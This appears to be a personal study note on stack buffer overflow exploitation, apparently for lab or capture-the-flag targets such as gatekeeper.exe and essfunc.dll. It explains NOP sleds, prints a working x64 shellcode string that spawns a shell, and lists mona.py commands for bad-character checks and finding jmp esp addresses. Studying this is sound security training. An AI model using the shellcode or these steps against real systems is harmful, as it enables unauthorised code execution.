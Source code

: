 # Buffer overfloww
The NOPs are instructions to do nothing, they will be skipped. It means that now, you don't need to get the exact address where your shell code start but any address in the NOPS, the program will skip all the NOPS and execute your shell code. That way if the memory shift a bit, your exploit will still work.

![](Buffer%20overfloww/image.png)

`Shell code for opening a shell: \x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05`

Read the stack or register RSP to find a suitable return address.

After s.connect, do `s.recv(1024)` (twice if error), and send the payload  
here we need to send username first and then press enter then payload,  
so we use `s.send(username + b'\r\n')` to enter new line  
then another message appears, so again `s.recv(1024)`

send badchars with the payload and right click on ESP and follow in dump to see if any of bad chars are removed  
or blurred  
`!mona modules` should give info about protections like DEP/ASLR,  
we're looking for falses in the binary

`!mona jmp -r esp -m gatekeeper.exe`

`!mona find -s "\xff\xe4 -m essfunc.dll(module)"` this is a jmp, esp use this to find address that can jump to malicious address  
  
search for address with black/bluish arrow at end of ribbon  
press f2 to set breakpoint at selected memory address